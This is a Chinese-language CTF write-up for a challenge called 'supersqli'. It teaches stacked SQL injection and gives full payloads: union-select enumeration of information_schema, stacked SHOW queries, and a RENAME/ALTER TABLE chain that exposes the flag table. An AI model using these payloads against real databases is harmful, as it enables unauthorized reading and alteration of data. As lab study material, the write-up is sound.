





supersqli
一、审题
二、解题思路
1、考点为堆叠注入，通常来说数据库每次执行一条指令，但堆叠注入是例外，在原语句后加上分号，多条语句可以一次执行，但其使用场景有限，受API、数据库引擎、权限等限制，例如利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行；
2、观察题目，发现题目中直接给了一个注入框，默认查询为inject=1，首先尝试闭合条件，发现使用单引号'时报错；


3、尝试使用order by或group by爆破出当前查询的列数，在尝试过程中需要将其后的单引号注释掉，首先尝试--注释，发现被过滤，再尝试#注释，可行，并爆破出当前查询列数为2，因为一直到3的时候报错了；

4、尝试使用union select爆破数据库信息，但是发现有waf；
-- 查询库名
' union select 1,group_concat(schema_name) from information_schema.schemata#
/*
几点解释
为什么是group_concat(schema_name)，因为一般是一行显示，所有用该函数拼接结果；
为什么是 1,group_concat(schema_name)，因为union查询的特殊性，每个 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，同时，每个 SELECT 语句中的列的顺序必须相同，所以需要找一个字符串型的列进行联合查询
*/
-- 查询表名
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='库名'#
-- 查询列名
' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名'#
-- 查询列内容
' union select 1,group_concat(列名) from 列名#

5、注意到select关键字被过滤后，可以考虑绕过或者尝试堆叠注入，此处为堆叠注入；
6、使用show命令查看库名、表名、列名；
1';show databases;# -- 查看库名的命令
-- 结果有六个，分别为ctftraining，information_schema，mysql，performance_schema，supersqli，test
1';show tables;# -- 查看当前库的表名的命令
-- 结果有两个，分别为1919810931114514，words
1';show columns from words;# -- 查看words表中的列
-- 结果有两个，分别为int(10)型的id，varchar(20)型的data
1';show columns from `1919810931114514`;# -- 查看1919810931114514表中的列，字符串为表名或字段名操作时要加反引号，这个解释不完整，当字符串为表名时，如果是保留字或者无法解释时，加上反引号就能被作为表名或字段名，如果只是正常的字符串可以不加反引号
-- 结果为varchar(100)型的flag
7、由上面对表中列的查询结果可知，当前操作的表为words，而需要的flag在1919810931114514表中，可以使用rename和alter来对1919810931114514表进行操作，rename更改表名，alter更改表中的列；
-- 将words表重命名为word
-- 将1919810931114514表重命名为words
-- 将1919810931114514表中的flag字段重命名为id
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100);#
-- 特别注意，不能将这前两句分开执行，因为执行第一句后，words表就没了，无法执行堆叠查询
-- 最后也可以向表中加入id列
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` add `id` int(10);#
8、此时再使用1' or 1=1#，进行为真查询就能够返回最终结果，这里解释一下为什么需要这样做，有了这个相当于where条件一定为真，相当于没有where子句，等价于直接执行select * from table；
